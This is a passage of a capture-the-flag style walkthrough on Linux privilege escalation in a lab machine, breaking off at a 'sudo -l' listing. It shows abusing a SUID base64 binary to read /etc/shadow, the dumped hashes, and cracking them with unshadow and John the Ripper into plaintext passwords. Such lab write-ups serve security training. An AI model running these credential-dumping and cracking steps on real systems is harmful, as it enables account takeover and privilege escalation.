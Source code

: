 ```bash
51455908   60 -rwsr-x---   1 root     dbus        57936 Sep 30  2020 /usr/libexec/dbus-1/dbus-daemon-launch-helper
17836404   16 -rwsr-xr-x   1 root     root        15448 Apr  1  2020 /usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
18393221   16 -rwsr-xr-x   1 root     root        15360 Oct  1  2020 /usr/libexec/qemu-bridge-helper
37203442  156 -rwsr-x---   1 root     sssd       157872 Oct 15  2020 /usr/libexec/sssd/krb5_child
37203771   84 -rwsr-x---   1 root     sssd        82448 Oct 15  2020 /usr/libexec/sssd/ldap_child
37209171   52 -rwsr-x---   1 root     sssd        49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
37209165   28 -rwsr-x---   1 root     sssd        27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
18270608   16 -rwsr-sr-x   1 abrt     abrt        15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
18535928   56 -rwsr-xr-x   1 root     root        53776 Mar 18  2020 /usr/libexec/flatpak-bwrap

```

We can abuse base64 binary to read files like `/etc/shadow`

```bash
[leonard@ip-10-10-232-53 ~]$ LFILE=/etc/shadow
[leonard@ip-10-10-232-53 ~]$ /usr/bin/base64 "$LFILE" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
[leonard@ip-10-10-232-53 ~]$
[leonard@ip-10-10-232-53 ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
leonard:x:1000:1000:leonard:/home/leonard:/bin/bash
missy:x:1001:1001::/home/missy:/bin/bash
[leonard@ip-10-10-232-53 ~]$

```

Now, crack the passwords, copy both `/passwd` and `/shadow` files, and save them.

```bash
─$ unshadow passwd.txt shadow.txt > hash.txt
─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
─$ john --show hash.txt
leonard:Penny123:1000:1000:leonard:/home/leonard:/bin/bash
missy:Password1:1001:1001::/home/missy:/bin/bash

2 password hashes cracked, 0 left

```

Switch to the Missy account, and check for misconfigurations that could lead to privilege escalation.

```bash
[missy@ip-10-10-181-178 leonard]$ sudo -l
Matching Defaults entries for missy on ip-10-10-181-178:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\\:/bin\\:/usr/sbin\\:/usr/bin

User missy may run the following commands on ip-10-10-181-178:
```